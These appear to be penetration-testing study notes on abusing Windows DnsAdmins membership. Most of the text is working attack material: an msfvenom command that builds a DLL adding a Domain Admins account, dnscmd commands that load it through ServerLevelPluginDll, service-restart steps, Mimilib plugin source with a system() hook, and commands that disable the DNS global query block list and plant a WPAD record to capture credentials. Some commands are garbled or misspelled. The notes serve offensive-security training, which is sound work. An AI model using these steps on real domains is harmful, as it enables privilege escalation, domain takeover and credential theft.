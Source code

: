 The Windows DNS service supports custom plugins and can call functions from them to 
resolve name queries that are not in the scope of any locally hosted DNS zones.

The DNS service runs as `NT AUTHORITY\SYSTEM`. Membership in this group could potentially be
leveraged to escalate privileges on the DC or in a situation where a separate server is acting
as the DNS server for the domain.

It's possible to use the built-in `dnscmd` utility to specify the path of the plugin DLL.
Here's an example of an attack when DNS is run on a DC:

https://adsecurity.org/?p=4064

#### Scenario

- DNS management is performed over RPC
- `SeverLevelPluginDll` allows us to load a custom DLL with no verification of the path using `dnscmd`
- When a `DnsAdmins`  group member runs the command below, the `ServerLevelPluginDll` regkey 
- is populated.

- When the DNS service is restarted, the DLL in this path will be loaded 
- (ie, a network share DC can access).

- An attacker can load a custom DLL to obtain a reverse shell or load tools like Mimikatz as a DLL.

## Leveraging DnsAdmins Access

##### Generating Malicious DLL
```bash
msfvenom - windows/x64/exec cmd=
	'net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

sudo python3 -m http.server 7777
```

- Download the DLL to the target
- Use the `dnscmd` utility to load a custom DLL with non-privileged user and...

```
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
( Access Denied )
```

- Only DnsAdmins are allowed to perform this, as expected. WHOOPS?
- We need to load this DLL as a DnsAdmin:

```
Get-ADGroupMember -Identity DnsAdmins
dnscmd.exe /config /serverlevelplugindll C:\Users\netadmn\Desktop\adduser.dll
```

Once the DLL is added we can either restart the DNS service if we have the rights or we would 
wait for a server restart.

Check our current user's permissions on the DNS Service.

##### Finding User's SID for the DNS Service
```
wmic useraccount where name="netadm" get sid
sc.exe sdshow DNS
sc stop dns
sc start dns
net group "Domain Admins" /dom
```

Here's an explaination of Security Descriptor Definition Language (SDDL) syntax:
https://academy.hackthebox.com/module/49/section/1016

## Cleaning Up For Our Customer

```
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
					/v ServerLevelPluginDll
sc.exe start dns
sc query dns
```

## Using Mimilib.dll

```cpp
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(
	PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, 
	PLUGIN_FREE_FUNCTION pDnsFreeFunction
)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(
	PSTR pszQueryName, 
	WORD wQueryType, 
	PSTR pszRecordOwnerName, 
	PDB_RECORD *ppDnsRecordListHead
)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

## Creating a WPAD Record

Membership in this group gives us the rights to disable global-query blocking security, 
which will block this attack by default.

Server 2008 first introduced the ability to add to a global query block list on a DNS server.
By default, Web Proxy Automatic Discovery Protocol (WAPD) and Intra-site Automatic Tunneling
Addressing Protocol (ISATAP) are on the global query block list. These protocols are quite
vulnerable to hijacking and any domain user can create a computer object or DNS record
containing those names.

After disabling the global query block list and creating a WPAD record, every machine running
WAPD with default settings will have it's traffic proxied through our attack machine.

We could use a tool like Responder or Inveigh to perform traffic spoofing and attempt to capture
password hashes and crack them offline, or perform an SMBRelay attack.

##### Disabling the Global Query Block List
```
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local 
	-ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

